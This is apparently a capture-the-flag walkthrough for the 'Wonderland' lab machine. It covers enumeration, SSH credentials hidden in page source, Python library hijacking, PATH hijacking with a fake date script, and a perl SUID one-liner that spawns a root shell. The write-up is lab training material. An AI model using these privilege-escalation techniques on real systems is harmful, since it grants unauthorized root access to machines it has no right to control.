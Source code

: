 # Wonderland

## nmap scan
nmap -sC -sV -A IP -v -oN ./nmap/initial.txt

intial
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
```

## gobuster scan
gobuster dir -w /usr/share/wordlists/dirb/common.txt -o goCommon.txt -u http://IP
COMMON
```
/img (Status: 301)
/index.html (Status: 301)
/r (Status: 301)
```
/img has 3 images, one of them, namely white_rabbit_1.jpg


`steghide --extract -sf white_rabbit_1.jpg`

> follow the r a b b i t

we know there is a directory called r, we notice here that there is a space in the word rabbit lets go down these directories

http://IP/r/a/b/b/i/t

this page contains the following and the image called alice_door.png

```
Open the door and enter wonderland

"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare. Visit either you like: they’re both mad."
```

if we look at the page source we find the following interesting paragraph
`<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`

this is ssh creds, we log in using `ssh alice@IP` 
using passwd `HowDothTheLittleCrocodileImproveHisShiningTail`

one of the hints mentions everything is upside down here, maybe that means user flag is in the root directory, if we ls on the directory we land in we see there is a root.txt, lets check if we can cat a user flag from the root directory

cat /root/user.txt
```
FLAG
```


if we sudo -l and enter alice's password we notice we can run a file as rabbit 

we see that walrus_and_the_carpenter.py is using the random library, if we create a random.py file of our own we can overwrite the one it is using

vim random.py

```
#!/bin/python

import os

os.system("/bin/bash")

``` 

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

we now have a shell as rabbit

so we notice that teaParty calls the binary date, we can exploit this much like the last file by changin what is contained in the date binary

we do this by changin the path environment variable by doing the following `export PATH=/tmp:$PATH`
check everything is correct do echo $PATH and it should be something like this
```
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

go into /tmp using cd and create a file called date
vim date
```
#!/bin/bash

/bin/bash

```

run teaParty and we now have a shell as hatter

in the hatters directory there is a file called password.txt we cat that it shows the following
```
WhyIsARavenLikeAWritingDesk?
```
we run linpeas and find perl has suid 

we run the gtfo bins suid with the bin
```
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

we now have a root shell

return back to alice's directory and cat root.txt
```
FLAG
```

